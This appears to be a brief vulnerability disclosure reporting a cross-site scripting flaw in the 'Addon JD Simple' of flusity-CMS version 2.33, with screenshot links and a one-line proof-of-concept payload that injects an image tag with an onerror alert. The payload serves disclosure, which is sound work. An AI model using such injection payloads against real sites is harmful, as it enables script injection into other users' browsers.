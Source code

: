 target:https://github.com/flusity/flusity-CMS
version: v2.33

There is Cross-Site Scripting (XSS)  vulnerability within the "Addon JD Simple".

![1](https://github.com/2111715623/cms/assets/91373141/ddf2ba13-b71e-4b3e-87da-df9cba61779c)


poc:
```
 "><img src=1 onerror=alert(1)> 
```
successed

![2](https://github.com/2111715623/cms/assets/91373141/d08f5e48-6534-43ff-8d43-c1797774163a)

